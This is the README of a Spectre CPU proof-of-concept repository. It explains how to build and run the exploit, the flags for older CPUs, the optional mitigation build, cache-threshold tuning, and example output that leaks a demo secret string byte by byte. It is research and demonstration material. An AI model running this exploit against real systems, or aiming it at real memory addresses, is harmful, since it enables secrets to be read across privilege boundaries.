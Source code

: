 # SpectrePoC

Proof of concept code for the Spectre CPU exploit.

## Attribution

The source code originates from the example code provided in the "Spectre Attacks: Exploiting Speculative Execution" paper found here:

https://spectreattack.com/spectre.pdf

The original source code used in this repository was conveniently provided by Erik August's gist, found here: https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6

The code has been modified to fix build issues, add workaround for older CPUs, and improve comments where possible.

## Building

The project can be built with GNU Make and GCC.

On debian these are included in the `build-essential` metapackage.

Building is as easy as:

`cd SpectrePoC`

`make`

The output binary is `./spectre.out`.

If you want to build a version with mitigation included, set your CFLAGS

CFLAGS=-DMITIGATION

in the Makefile or build like

 CFLAGS=-DMITIGATION make

The output binary will still be in ./spectre.out .

### Building for older CPUs

Depending on the CPU, certain instructions will need to be disabled in order for the program to run correctly.

The instructions in question are:

#### rdtscp:

Introduced with x86-64.
All 32-bit only CPUs, including many Core 2 Duos, will need to disable this instruction.

To build the project without `rdtscp`, define the NORDTSCP cflag:

`CFLAGS=-DNORDTSCP make` 

#### mfence:
Introduced with SSE2.
Most CPUs pre-Pentium 4 will need to disable this instruction.

To build the project without `mfence`, define the NOMFENCE cflag:

`CFLAGS=-DNOMFENCE make`

#### clflush
Introduced with SSE2.
Most CPUs pre-Pentium 4 will need to disable this instruction.

To build the project without `clflush`, define the NOCLFLUSH cflag:

`CFLAGS=-DNOCLFLUSH make`

To define multiple cflags, separate each cflag with an escaped space. For example:

`CFLAGS=-DNORDTSCP\ -DNOMFENCE\ -DNOCLFLUSH make`

### Building it without using the Makefile

If you want to build it manually, make sure to disable all optimisations (aka, don't use -O2), as it will break the program.

## Executing

To run spectre with default cache hit threshold of 80, and the secret example string "The Magic Words are Squeamish Ossifrage." as the target, run `./spectre.out` with no command line arguments.

**Example:** `./spectre.out`

The cache hit threshold can be specified as the first command line argument. It must be a whole positive integer.

**Example:** `./spectre.out 80`

A custom target address and length can be given as the second and third command line arguments, respectively.

**Example:** `./spectre.out 80 12345678 128`

## Tweaking

If you're getting lackluster results, you may need to tweak the cache hit threshold. This can be done by providing a threshold as the first command line argument.

While a value of 80 appears to work for most desktop CPUs, a larger value may be required for slower CPUs. For example, on a AMD GX-412TC SOC, a value of 100-300 was required to get a good result.

## Contributing

Feel free to add your results to the "Results" issue. Include your cache hit threshold, OS details, CPU details like vendor Id, family, model name, stepping, microcode, MHz, and cache size. The OS can be found by running `uname -a`. CPU info can be found by running `cat /proc/cpuinfo` on Linux, and `sysctl -a | grep machdep.cpu` on OSX.

## Example output

The following was output on an AMD GX-412TC SOC, with a cache hit threshold of 100:

`./spectre.out 100:`

```
Using a cache hit threshold of 100.
Build: RDTSCP_SUPPORTED CLFLUSH_SUPPORTED
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfedf8... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfedf9... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfedfa... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfedfb... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfedfc... Success: 0x4D=’M’ score=2
Reading at malicious_x = 0xffffffffffdfedfd... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfedfe... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfedff... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee00... Success: 0x63=’c’ score=2
Reading at malicious_x = 0xffffffffffdfee01... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee02... Success: 0x57=’W’ score=2
Reading at malicious_x = 0xffffffffffdfee03... Success: 0x6F=’o’ score=2
Reading at malicious_x = 0xffffffffffdfee04... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee05... Success: 0x64=’d’ score=2
Reading at malicious_x = 0xffffffffffdfee06... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee07... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee08... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee09... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee0a... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee0b... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee0c... Success: 0x53=’S’ score=2
Reading at malicious_x = 0xffffffffffdfee0d... Success: 0x71=’q’ score=2
Reading at malicious_x = 0xffffffffffdfee0e... Success: 0x75=’u’ score=2
Reading at malicious_x = 0xffffffffffdfee0f... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee10... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee11... Success: 0x6D=’m’ score=2
Reading at malicious_x = 0xffffffffffdfee12... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee13... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee14... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfee15... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee16... Success: 0x4F=’O’ score=2
Reading at malicious_x = 0xffffffffffdfee17... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee18... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee19... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee1a... Success: 0x66=’f’ score=2
Reading at malicious_x = 0xffffffffffdfee1b... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee1c... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee1d... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfee1e... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee1f... Success: 0x2E=’.’ score=2
```
